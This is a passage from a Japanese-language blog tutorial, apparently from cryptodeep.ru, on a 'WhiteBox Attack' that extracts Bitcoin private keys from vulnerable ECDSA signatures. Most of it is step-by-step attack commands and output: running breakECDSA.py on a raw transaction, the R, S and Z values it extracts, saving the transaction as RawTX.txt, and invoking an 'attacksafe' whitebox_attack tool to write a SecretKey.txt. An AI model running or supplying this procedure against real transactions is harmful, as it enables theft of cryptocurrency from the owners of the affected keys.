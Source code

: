 

<h2>ここで、すべての脆弱なトランザクションからすべての R、S、Z 値を取得する必要があります</h2>



<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-30-1024x287.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1611"/></figure>



<pre class="wp-block-code"><code>R = 0xaf4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f26
S = 0x0a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562
Z = 0xf3c7d4c7371a2c57be6b3eb6c446128a3a2cefdb593e6577750c95d22cd8309c</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-31-1024x359.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1613"/></figure>


